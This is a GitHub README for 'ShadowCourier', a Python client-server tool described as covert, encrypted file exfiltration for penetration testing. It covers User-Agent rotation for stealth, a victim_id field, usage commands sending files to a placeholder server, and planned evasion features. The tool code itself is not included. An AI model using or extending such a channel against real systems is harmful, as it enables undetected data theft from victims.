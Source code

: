 # ShadowCourier 🕵️‍♂️

**Covert File Delivery for Penetration Testing**

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Python 3.6+](https://img.shields.io/badge/Python-3.6+-blue.svg)](https://www.python.org/downloads/)

**ShadowCourier** is a stealthy, Python-based tool for secure file transfers in **authorized penetration testing** and **CTF labs**. With **AES-256-CBC encryption**, **gzip compression**, and **User-Agent rotation**, it mimics real-world covert operations while staying ethical. Perfect for red teamers and security enthusiasts who love a *Hacker Simulator* vibe.

> **⚠️ Ethical Use Only**: ShadowCourier is for **authorized testing** and **educational purposes**. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.

---

## 🌟 Features

- **🔒 Military-Grade Encryption**: Secures files with **AES-256-CBC** for safe transit.
- **📦 Compact Payloads**: **Gzip compression** shrinks files (e.g., 378B to 200B) for stealth.
- **🕵️ Stealthy Transfers**: Rotates **User-Agent** headers to blend into browser traffic.
- **🛠️ Easy Configuration**: Uses `shadow.conf` with environment variable overrides.
- **📂 Flexible Transfers**: Supports single files or directories with relative paths.
- **🔄 Reliable Delivery**: Configurable retries (default: 3) for unstable networks.
- **🎨 Cyberpunk Interface**: `tqdm` progress bars for a sleek, real-time experience.

**Stealth Score**: 🟠 **Moderate (6/10)**  
- **Pros**: Encrypted payloads, compressed data, browser-like headers.  
- **Cons**: HTTP headers and fixed ports are detectable. See [Future Enhancements](#future-enhancements).

---

## 🚀 Quick Start

1. **Clone the Repo**:
   ```bash
   git clone https://github.com/your-username/ShadowCourier.git
   cd ShadowCourier
   ```

2. **Set Up Server**:
   ```bash
   python3 -m venv server/env
   source server/env/bin/activate
   pip install pycryptodome
   python3 server/ghost_server.py
   ```

3. **Set Up Client**:
   ```bash
   python3 -m venv client/env
   source client/env/bin/activate
   pip install requests tqdm pycryptodome colorama
   python3 client/shadow_client.py path/to/test.file
   ```

4. **Configure**: Edit `server/shadow.conf` and `client/shadow.conf` with your server IP and settings.

---

## 🛠️ How It Works

ShadowCourier uses a client-server model for secure file transfers:

- **Ghost Server (`ghost_server.py`)**:
  - Listens on a configurable port (default: 8080) at `/upload`.
  - Receives JSON payloads, decrypts **AES-256-CBC** data, decompresses **gzip**, and saves files to `uploads/<victim_id>/`.
  - Logs transfers with client IP and file sizes.

- **Shadow Client (`shadow_client.py`)**:
  - Compresses files with **gzip**, encrypts with **AES-256-CBC**, and sends via HTTP POST.
  - Rotates **User-Agent** headers (Chrome, Firefox, etc.) for stealth.
  - Shows progress with `tqdm` bars and file size stats.

**Data Flow**:
```
[Client] -> Gzip -> AES-256-CBC -> Base64 -> JSON -> HTTP POST
[Server] <- HTTP POST <- JSON <- Base64 <- AES-256-CBC <- Gzip
```

**Sample Payload**:
```json
{
  "file": "base64_encrypted_data",
  "filename": "test.file",
  "key": "base64_aes_key",
  "iv": "base64_iv",
  "is_compressed": "true",
  "victim_id": "default_victim"
}
```

---

## 📋 Requirements

- **Python**: 3.6+ (tested on 3.8–3.11)
- **OS**: Linux (recommended), macOS, or Windows (adjust paths)
- **Dependencies**:
  - Server: `pycryptodome`
  - Client: `requests`, `tqdm`, `pycryptodome`, `colorama`

Install:
```bash
pip install requests tqdm pycryptodome colorama
```

---

## 🎮 Usage

### Start the Server
```bash
cd server
source env/bin/activate
python3 ghost_server.py --port 8080 --upload-dir ~/ShadowCourier/uploads
```
**Output**:
```
[*] Loaded config from shadow.conf
[*] Server online at 0.0.0.0:8080, saving to ~/ShadowCourier/uploads...
```

### Run the Client
```bash
cd client
source env/bin/activate
python3 shadow_client.py path/to/file --url http://<server-ip>:8080/upload
```
**Output**:
```
[*] Loaded config from shadow.conf
[*] Transferring 1 files to http://<server-ip>:8080/upload
[*] Size: 378B, compressed: 200B, encrypted: 280B
[+] Success: file transferred
```

**Options**:
- `--port <PORT>`: Server port.
- `--url <URL>`: Server endpoint.
- `--victim-id <ID>`: Custom ID for file organization.
- `--retries <N>`: Retry attempts.

---

## 🛡️ Stealth Analysis

- **Pros**: AES-256-CBC encryption, gzip compression, User-Agent rotation.
- **Cons**: HTTP headers and fixed ports are scannable.

**Stealth Score**: 🟠 **Moderate (6/10)**

---

## 🐛 Troubleshooting

- **Server Unreachable**:
  ```bash
  curl -v http://<server-ip>:8080/upload
  sudo ufw status
  ```

- **JSON Errors**:
  Check `file`, `filename`, `key`, `iv`, `is_compressed`, `victim_id` in payloads.

- **Dependencies**:
  ```bash
  pip install requests tqdm pycryptodome colorama
  ```

---

## 🔮 Future Enhancements

- **HTTPS**: Encrypt headers for stealth.
- **Dynamic Ports**: Avoid scans.
- **Proxies**: Add HTTP/SOCKS support.
- **Steganography**: Hide data in images.

Suggest features via GitHub Issues!

---

## 🤝 Contributing

1. Fork the repo.
2. Branch: `git checkout -b feature/awesome-idea`.
3. Commit: `git commit -m "Add awesome idea"`.
4. Push: `git push origin feature/awesome-idea`.
5. Open a Pull Request.

See [Code of Conduct](CODE_OF_CONDUCT.md).

---

## ⚖️ License

[MIT License](LICENSE)

---

## 📜 Disclaimer

For **educational and authorized use only**. Misuse is illegal. The developers are not liable for unethical actions.

---

**Star ⭐ the repo and hack ethically!** 🖥️🔒